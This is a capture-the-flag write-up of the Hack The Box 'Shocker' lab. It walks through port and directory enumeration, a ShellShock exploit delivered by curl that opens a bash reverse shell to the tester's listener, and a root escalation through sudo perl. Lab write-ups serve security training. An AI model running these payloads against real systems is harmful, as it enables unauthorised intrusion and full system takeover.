







# HTB - Shocker

#### Ip: 10.10.10.56
#### Name: Shocker
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Shocker]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 09:07 CDT
Nmap scan report for 10.10.10.56
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 7.12 seconds
```

Lets further enumerate the open ports by scanning with the `-sV` and `-sC` flags to enumerate versions and to use default scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Shocker]
└─$ sudo nmap -sC -sV -T4 10.10.10.56 -p 80,2222              
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 09:08 CDT
Nmap scan report for 10.10.10.56
Host is up (0.066s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.97 seconds
```

Ok, looks like the classic http/ssh combo found on many Linux CTFs. Navigating to the website, we see just a simple static page:



Lets kick off some directory enumeration to see if we can find any interesting sub-directories:

```text
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Gobuster doesn't find anything useful for us. But if I include the `-f` flag to append the last `/` character, we find there is in fact a /cgi-bin/ directory.



Interestingly, navigating to http://10.10.10.56/cgi-bin we get a 404 Not Found error (hence our initial Gobuster scan not finding anything), but visiting http://10.10.10.56/cgi-bin/ gives us a 403 Forbidden message. 

Lets continue digging into the /cgi-bin/ directory:

```text
┌──(ryan㉿kali)-[~/HTB/Shocker]
└─$ gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x cgi,sh,php
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              sh,php,cgi
[+] Timeout:                 10s
===============================================================
2023/05/05 09:35:42 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 119]
```

Ok cool, now with a name like Shocker, and finding a cgi-bin directory, my first though is to obviously try exploiting the ShellShock vulnerability. If not familiar, ExploitDB has a nice succinct article on the exploit: https://www.exploit-db.com/docs/english/48112-the-shellshock-attack-%5Bpaper%5D.pdf?utm_source=dlvr.it&utm_medium=twitter

### Exploitation

There are a few ways to exploit this vulnerability, but today I'm going to just use bash from my terminal. Setting up a netcat listener on port 443 all I need to do is execute:

```text
┌──(ryan㉿kali)-[~/HTB/Shocker]
└─$ curl -H "user-agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.7/443 0>&1" \http://10.10.10.56/cgi-bin/user.sh
```
And I will catch a shell back as user Shelly (ha!):



and grab the user.txt flag:



### Privilege Escalation

First thing I like to do once I have initial access on a Linux machine is to run `sudo -l` to list out anything I may be able to run with elevated/ root permissions. It takes no time at all, and can often lead to an easy win.

Today is no different; running `sudo -l` I see I can run `/usr/bin/perl` commands with root permissions:



For situations like this https://gtfobins.github.io/ is where you want to be. This site is an amazing resource for pentesters/hackers and is extremely user friendly.

In this specific case, all I need to do is search for 'perl' in the search bar, and I am presented with results I can literally copy/paste onto the target to elevate my shell to root:



```text
shelly@Shocker:/home/shelly$     sudo perl -e 'exec "/bin/sh";'
```
This command uses Perl to launch bin/bash and from there all that is left to do is grab the final flag:



And that's that! Thanks for following along!

-Ryan

-----------------------------------------------------------------------------------------
